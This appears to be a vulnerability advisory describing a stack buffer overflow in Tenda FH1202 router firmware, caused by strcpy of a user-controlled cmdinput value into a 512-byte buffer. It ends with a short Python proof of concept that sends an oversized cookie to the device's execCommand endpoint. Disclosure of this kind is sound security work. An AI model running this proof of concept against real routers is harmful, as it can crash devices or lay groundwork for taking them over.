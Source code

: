 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2079.html

## Affected version

FH1202 V1.2.0.14(408)

## Vulnerability details

The Tenda FH1202 V1.2.0.14(408) firmware has a stack overflow vulnerability in the `formexeCommand` function. The `src` variable receives the `cmdinput` parameter from a POST request and is later assigned to the `v7` variable, which is fixed at 512 bytes. However, since the user can control the input of `cmdinput`, the statement `strcpy(v7, src);` can cause a buffer overflow. The user-provided `cmdinput` can exceed the capacity of the `v7` array, triggering this security vulnerability.

![image-20240319224459247](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319224459247.png)

![image-20240319224448337](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319224448337.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://%s/goform/execCommand"%ip
cookie = {"Cookie":"cmdinput=" + "A"*1000}
ret = requests.get(url=url,cookies=cookie)
print(ret.text)
```

![image-20240319224533035](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319224533035.png)